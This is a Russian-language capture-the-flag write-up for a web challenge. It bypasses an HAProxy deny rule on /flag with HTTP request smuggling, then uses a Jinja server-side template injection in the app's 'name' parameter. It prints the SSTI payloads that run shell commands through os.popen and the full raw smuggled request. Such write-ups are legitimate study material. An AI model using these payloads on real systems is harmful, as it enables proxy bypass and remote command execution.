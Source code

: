# Web 3
Вводим имя, получаем перенаправление на /flag, на котором получаем 403:
![403.png](403.png "403 :(")
Читаем исходники и видим, что на сервере стоит haproxy, который не пускает нас на /flag. Из haproxy.cfg:
```
    acl restricted_page path_beg,url_dec -i /flag
    http-request deny if restricted_page
```
Ищем "haproxy exploit 1.9.10" в Яндексе, долго копаемся в поисковой выдаче, пока не наткнёмся на: \
https://blog.shoebpatel.com/2020/05/18/DefCon-CTF-2020-HTTP-Desync-between-HAProxy-Gunicorn/ \
Используя http  smuggling обходим прокси и делаем запрос к /flag(много раз, пока не получим ответ на 2 запрос). В самом запросе в поле name вставляем простой ssti, который можно заметить в коде app.py:
```
@app.route('/flag')
def index():
    code = request.args.get('name')
    contains_forbidden = sanitize_input(code)
    if not contains_forbidden:
        html = "<h1>привет</h1><p><h3> %s </h3><p>" % (code[:100])
    else:
        html = "<h1> Содержит запрещенные символы</h1>"
    return render_template_string(html)
```
![504.png](504.png "504 :)")

Поднимаем локально через докер, убирая ограничение на /flag в haproxy, чтобы потренироваться с пейлоадом:

![local.png](local.png "local :)")

C помощью https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection подбираем пейлоад:
```
{{config.__init__.__globals__.__builtins__.__import__("os").popen("ls").read()}}
```
![local2.png](local2.png "local2 :)")
А потом:
```
{{config.__init__.__globals__.__builtins__.__import__("os").popen("cat%20flag.txt").read()}}
```
![local3.png](local3.png "local3 :)")

Повторяем то же самое на сервере вместе с http smugglinhg ^-^:\
![win.png](win.png "ПОБЕДА!!!!!!! ")
Итоговый запрос:
```
GET / HTTP/1.1
Host:192.168.12.11:8001
Content-Length: 160
Transfer-encoding:chunked

5
fffff
0

GET /flag?name={{config.__init__.__globals__.__builtins__.__import__("os").popen("cat%20flag.txt").read()}} HTTP/1.1
Host:192.168.12.11:8001


```